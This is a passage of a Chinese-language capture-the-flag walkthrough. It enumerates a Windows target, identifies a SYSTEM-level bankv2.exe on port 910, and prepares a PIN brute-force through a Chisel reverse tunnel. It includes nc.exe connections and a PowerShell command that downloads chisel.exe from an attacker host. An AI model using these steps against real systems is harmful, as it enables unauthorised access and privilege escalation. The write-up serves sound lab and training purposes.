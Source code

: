 ```
dir c:\  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)但是使用 icacls 和 cacls 进行查看发现无法访问

```
icacls c:\bankv2.exe  
cacls c:\bankv2.exe  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在本地查看开放端口

```
netstat -ano  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在其中发现 nmap 未扫描到的端口：910，于是在本地查看910端口对应的进程，发现它正运行着`bankv2.exe`

```
tasklist | findstr 1640  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)进一步查看进程`bankv2.exe`可以发现运行权限为系统权限，因此我们可以尝试通过`bankv2.exe`进行提权

```
tasklist /V  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用上传的 nc.exe 尝试连接910端口

```
%temp%\nc.exe 127.0.0.1 910  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)输入密码1234但是无法连接，由于 PIN 码只包含4个数字我们可以尝试暴力破解

### 搭建隧道

我们可以使用 Chisel 来建立隧道进行暴力破解，首先在靶机中下载 chisel.exe _**下载地址：https://github.com/jpillora/chisel**_

```
cd C:\Users\Cortin\AppData\Local\Temp  
powershell -c "wget http://10.10.14.16/chisel.exe -o chisel.exe"  

```

与此同时在本地启动服务，监听8000端口并允许反向隧道

```
./chisel server -p 8000 --reverse  

```
